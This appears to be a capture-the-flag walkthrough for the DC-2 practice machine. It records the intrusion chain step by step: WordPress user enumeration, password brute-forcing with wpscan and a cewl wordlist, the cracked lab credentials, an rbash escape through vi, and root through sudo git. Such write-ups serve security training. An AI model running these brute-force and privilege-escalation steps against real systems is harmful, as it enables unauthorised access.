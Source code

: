 # DC - 2

nmap enumeration

![](../.gitbook/assets/1111111111111111%20%2817%29.png)

finding webapp directories

![](../.gitbook/assets/1111111111111111%20%2820%29.png)

the output indicates that we have wp-admin directory so this is a wordpress CMS

add dc-2 to /etc/hosts of your kali machine to browse the webapp 

![](../.gitbook/assets/1111111111111111%20%288%29.png)

check out all pages for anything useful

![](../.gitbook/assets/1111111111111111%20%285%29.png)

create a wordlist using cewl command:

```text
cewl -m 4 -e -w wordlist http://dc-2
```

enumerate usernames with wpscan:

```text
wpscan --url http://dc-2  --enumerate u --force --wp-content-dir wp-content 
```

![](../.gitbook/assets/1111111111111111%20%286%29.png)

userlist:

```text
admin
tom
jerry
```

now lets brute force these acounts with the wordlist

```text
wpscan --url http://dc-2 --passwords wordlist  --usernames userlist -t 25
```

![](../.gitbook/assets/1111111111111111.png)

jerry : adipiscing

 tom : parturient

lets try ssh \( port 7744\)



![](../.gitbook/assets/1111111111111111%20%2815%29.png)

we have an rbash we need to escape from it

echo $path

![](../.gitbook/assets/1111111111111111%20%2810%29.png)

we have less, ls, scp and vi

we can escape the shell through vi command:

```text
vi
:set shell=/bin/bash
:shell
```

```text
less flag3.txt
```

![](../.gitbook/assets/1111111111111111%20%2811%29.png)

so we need to su to jerry

su is not available for us so we should fix the $PATH variable

fix the path problem

```text
export PATH=/bin:/usr/bin:$PATH
```

su jerry

![](../.gitbook/assets/1111111111111111%20%2812%29.png)

now we need r00t:

![](../.gitbook/assets/1111111111111111%20%2819%29.png)

we can sudo git without password

use gtfobins instructions for this privesc method:

```text
sudo git -p help config
!/bin/sh
```

![](../.gitbook/assets/1111111111111111%20%283%29.png)

done !














